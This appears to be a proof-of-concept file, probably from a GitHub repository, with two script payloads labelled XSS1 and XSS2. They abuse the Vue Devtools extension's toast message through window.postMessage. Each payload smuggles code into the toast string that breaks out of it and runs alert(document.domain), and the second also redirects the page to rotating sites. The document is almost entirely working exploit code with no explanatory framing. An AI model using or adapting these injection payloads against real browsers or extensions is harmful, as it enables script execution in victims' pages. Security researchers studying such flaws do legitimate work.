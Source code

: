XSS1
----

    <script>
        setInterval(() => {
            window.postMessage({
                vueDetected: true,
                vueToast: {
                    message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain);//'
                }
            }, '*')
        }, 1000)
    </script>

XSS2
----

    <script>
        const urls = ['https://www.google.com/', 'https://github.com', 'https://vuejs.org/']
        var i = 0;
        setInterval(() => {
            window.postMessage({
                vueDetected: true,
                vueToast: {
                    message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain); location=`' + urls[i++%3] +'`//'
                }
            }, '*')
        }, 3000)
    </script>